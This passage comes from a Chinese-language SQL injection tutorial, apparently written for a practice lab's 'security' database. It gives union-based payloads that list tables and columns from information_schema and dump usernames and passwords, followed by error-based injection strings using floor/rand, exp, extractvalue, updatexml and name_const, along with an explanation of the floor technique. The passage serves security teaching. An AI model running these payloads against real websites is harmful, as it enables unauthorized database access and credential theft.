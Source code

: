 &#8195;&#8195;接下来的查询就比较简单了，因为只有两个可控的回显点，所以 我们需要用 `limit` 来不断猜解各个字段，实际中我们经常需要用十六进制或者ASCII编码来代替字符串类型：
```
id=-1' union select 1,2,table_name from information_schema.tables where table_schema='security' limit 3,4--+
id=-1' union select 1,2,column_name from information_schema.columns where table_name='users' limit 4,5--+
id=-1' union select 1,2,concat_ws(':',user(),username, password) from users--+

id=-1' union select 1,2,schema_name from information_schema.schemata--+ 
id=-1' union select 1,2,concat_ws(char(32,58,32),user(),username, password) from users--+
```
&#8195;&#8195;`information_schema` 是系统数据库，记录当前数据库的数据库，表，列，用户权限等信息。`SCHEMATA`表：储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等，`show databases` 的结果取之此表，我们最常用的是 `schema_name` ，该字段保存了数据库名。
&#8195;&#8195;`TABLES表`，我们最常用的是 `table_name` 对应表名，`table_schema` 对应数据库名。
&#8195;&#8195;`COLUMNS表`，我们最常用的是 `table_name` 对应表名，`table_schema` 对应数据库名，`column_name` 对应列名。

### 报错注入
&#8195;&#8195;没有可控回显点，但是有报错信息，我们可以使用报错注入，基于错误的注入，前提就是能输出错误信息，涉及报错的点有三个：
> 1.  `php.ini` 中的 `display_errors=On` ；
> 2.  `PHP` 的函数 `error_reporting()` ；
> 3.  `MySQL` 的函数 `mysqli_error()` ;

&#8195;&#8195;其实就算 `display_errors=Off` `error_reporting()`，如果代码中有类似 `echo mysqli_error()` 的调试信息，依然会出现报错信息，注意这个函数不同于 `mysql_error()` ，它需要有一个参数。虽然报错函数有十几种，但是我测试了下通用性比较强的并不多，可能是版本问题：
```
select 1,count(*),concat(user(),0x7e,@@version)a from users group by a;
select 1,count(*),concat(user(),0x7e,@@version,floor(rand(0)*2))a from users group by a;
select exp((select * from(select @@version)x));
select exp(~(select * from(select @@version)x));
select extractvalue(1,concat(user(),0x7e,@@version));
select updatexml(1,concat(user(),0x7e,version()),1);
select * from (select name_const(version(),1),name_const(version(),1)) as x;

```
&#8195;&#8195;结果如图：
![errorbase](/imgs/errorbase.png)
简单分析下原理：
**Floor()**
`floor` 报错需要三个条件：
> 1. count(*)，返回表中的记录数（行数），
> 2. floor(rand(0))，rand()是一个0到1的随机数，但是rand(x)是一个0到1的固定值，floor向下取整，所以 `floor(rand(0)*2)` 前六位是 `011011`；
> 3. group by，将查询结果按指定列的值分组，值相等的为一组。
